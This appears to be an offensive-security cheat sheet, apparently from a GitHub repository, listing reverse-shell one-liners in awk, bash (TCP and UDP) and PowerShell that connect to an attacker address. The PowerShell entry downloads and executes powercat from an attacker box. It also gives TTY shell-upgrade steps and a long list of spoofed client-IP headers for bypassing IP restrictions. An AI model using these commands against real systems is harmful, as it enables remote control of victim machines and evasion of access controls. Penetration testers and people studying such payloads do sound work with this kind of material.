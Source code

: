 * [Reverse Shell](#reverse-shell)
	* [Awk](#awk)
	* [Bash TCP](#bash-tcp)
	* [Bash UDP](#bash-udp)
	* [PowerShell](#powershell)
* [Spawn TTY Shell](#spawn-tty-shell)
	* [Python](#python)
	* [Perl](#perl)
* [Extension Linux](#extension-linux)
* [IP address bypass](#ip-address-bypass)
* [Useful Regex](#useful-regex)
* [References](#references)

## Reverse Shell
### Awk
```awk
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Bash TCP
```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

### Bash UDP
```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

### Powershell
```powershell
Victim:
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"

Attacker:
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 8080
nc -lvp 1337
```

## Spawn TTY Shell
### Python
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Python extended
```
(victim) python3 -c "import pty; pty.spawn('/bin/bash')"
(hacker) Ctrl+Z
(hacker) Enter
(hacker) stty raw -echo
(hacker) fg (you will not see your keystrokes -- trust yourself and hit Enter)
(hacker) Enter
(hacker) Enter
(hacker) export TERM=xterm
```

### Perl
```
perl -e 'exec "/bin/bash";'
```

## IP address bypass
```
CACHE_INFO: 127.0.0.1
CF_CONNECTING_IP: 127.0.0.1
CF-Connecting-IP: 127.0.0.1
CLIENT_IP: 127.0.0.1
Client-IP: 127.0.0.1
COMING_FROM: 127.0.0.1
CONNECT_VIA_IP: 127.0.0.1
FORWARD_FOR: 127.0.0.1
FORWARD-FOR: 127.0.0.1
FORWARDED_FOR_IP: 127.0.0.1
FORWARDED_FOR: 127.0.0.1
FORWARDED-FOR-IP: 127.0.0.1
FORWARDED-FOR: 127.0.0.1
FORWARDED: 127.0.0.1
HTTP-CLIENT-IP: 127.0.0.1
HTTP-FORWARDED-FOR-IP: 127.0.0.1
HTTP-PC-REMOTE-ADDR: 127.0.0.1
HTTP-PROXY-CONNECTION: 127.0.0.1
HTTP-VIA: 127.0.0.1
HTTP-X-FORWARDED-FOR-IP: 127.0.0.1
HTTP-X-IMFORWARDS: 127.0.0.1
HTTP-XROXY-CONNECTION: 127.0.0.1
PC_REMOTE_ADDR: 127.0.0.1
PRAGMA: 127.0.0.1
PROXY_AUTHORIZATION: 127.0.0.1
PROXY_CONNECTION: 127.0.0.1
Proxy-Client-IP: 127.0.0.1
PROXY: 127.0.0.1
REMOTE_ADDR: 127.0.0.1
Source-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Via: 127.0.0.1
VIA: 127.0.0.1
WL-Proxy-Client-IP: 127.0.0.1
X_CLUSTER_CLIENT_IP: 127.0.0.1
X_COMING_FROM: 127.0.0.1
X_DELEGATE_REMOTE_HOST: 127.0.0.1
X_FORWARDED_FOR_IP: 127.0.0.1
X_FORWARDED_FOR: 127.0.0.1
X_FORWARDED: 127.0.0.1
X_IMFORWARDS: 127.0.0.1
X_LOCKING: 127.0.0.1
X_LOOKING: 127.0.0.1
X_REAL_IP: 127.0.0.1
X-Backend-Host: 127.0.0.1
X-BlueCoat-Via: 127.0.0.1
X-Cache-Info: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: 127.0.0.1, 127.0.0.1, 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Forwared-Host: 127.0.0.1
X-From-IP: 127.0.0.1
X-From: 127.0.0.1
X-Gateway-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Ip: 127.0.0.1
X-Original-Host: 127.0.0.1
X-Original-IP: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originally-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyMesh-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Real-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-True-Client-IP: 127.0.0.1
XONNECTION: 127.0.0.1
XPROXY: 127.0.0.1
XROXY_CONNECTION: 127.0.0.1
Z-Forwarded-For: 127.0.0.1
ZCACHE_CONTROL: 127.0.0.1
```
